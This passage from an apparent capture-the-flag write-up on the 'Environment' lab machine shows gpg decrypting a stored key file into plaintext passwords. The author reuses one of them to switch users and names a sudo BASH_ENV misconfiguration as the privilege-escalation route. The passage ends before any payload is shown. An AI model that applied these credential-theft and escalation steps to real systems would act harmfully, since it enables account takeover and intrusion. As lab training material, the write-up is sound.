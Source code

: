 ```bash
gpg: /root/.gnupg/trustdb.gpg: trustdb created
gpg: key 12F42AE5117FFD8E: public key "hish_ <hish@environment.htb>" imported
gpg: key 12F42AE5117FFD8E: secret key imported
gpg: Total number processed: 1
gpg:               imported: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
gpg: encrypted with rsa2048 key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```
{: .nolineno }

**Decryption Results:**
```
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```
{: .nolineno }

**Privesc Paths:**
- User credential reuse (successful with `hish` password)
- Sudo privilege analysis
- SUID binary identification

## 8️⃣ Privilege Escalation  

Change the user to <b><span style="color:rgb(219, 0, 0)">hish</span></b>
 user 🔻

```bash
www-data@environment:/home/hish/.gnupg$ su hish
Password: 
hish@environment:~/.gnupg$ whoami
hish
hish@environment:~/.gnupg$ id
uid=1000(hish) gid=1000(hish) groups=1000(hish),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth)
hish@environment:~/.gnupg$
```
{: .nolineno }

**Method Used:** BASH_ENV Environment Variable Injection

**Why this vector:** The `sudo -l` output revealed a critical misconfiguration:

```bash
sudo -l
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin, 
    env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```
{: .nolineno }

